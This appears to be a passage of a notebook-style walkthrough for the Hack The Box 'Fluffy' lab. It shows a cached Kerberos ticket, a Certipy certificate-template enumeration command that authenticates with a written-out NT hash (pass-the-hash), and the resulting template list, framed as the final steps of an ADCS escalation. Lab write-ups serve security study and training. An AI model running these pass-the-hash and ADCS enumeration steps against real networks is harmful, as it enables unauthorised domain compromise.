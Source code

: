 ```sh
Cached Tickets: (1)

#0>     Client: ca_svc @ FLUFFY.HTB
        Server: krbtgt/fluffy.htb @ FLUFFY.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
        Start Time: 5/26/2025 18:28:41 (local)
        End Time:   5/27/2025 4:28:41 (local)
        Renew Time: 6/2/2025 18:28:41 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY 
        Kdc Called: 

# Final Steps of Certipy escalation

## More BloodHound and suggestions
https://seriotonctf.github.io/2024/06/26/ADCS-Attacks-with-Certipy/index.html

https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage


```python
!certipy find -u ca_svc -hashes :CA0F4F9E9EB8A092ADDF53BB03FC98C8 -target-ip $target
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'fluffy-DC01-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'fluffy-DC01-CA' via CSRA: Could not connect: timed out
    [*] Trying to get CA configuration for 'fluffy-DC01-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Got CA configuration for 'fluffy-DC01-CA'
    [*] Saved BloodHound data to '20250526162142_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
    [*] Saved text output to '20250526162142_Certipy.txt'
    [*] Saved JSON output to '20250526162142_Certipy.json'



```python
!cat 20250526162142_Certipy.txt | grep Template
```

    Certificate Templates
        Template Name                       : KerberosAuthentication
        Template Name                       : OCSPResponseSigning
        Template Name                       : RASAndIASServer
        Template Name                       : Workstation
        Template Name                       : DirectoryEmailReplication
        Template Name                       : DomainControllerAuthentication
        Template Name                       : KeyRecoveryAgent
        Template Name                       : CAExchange
        Template Name                       : CrossCA
        Template Name                       : ExchangeUserSignature
        Template Name                       : ExchangeUser
        Template Name                       : CEPEncryption
        Template Name                       : OfflineRouter
        Template Name                       : IPSECIntermediateOffline
        Template Name                       : IPSECIntermediateOnline
        Template Name                       : SubCA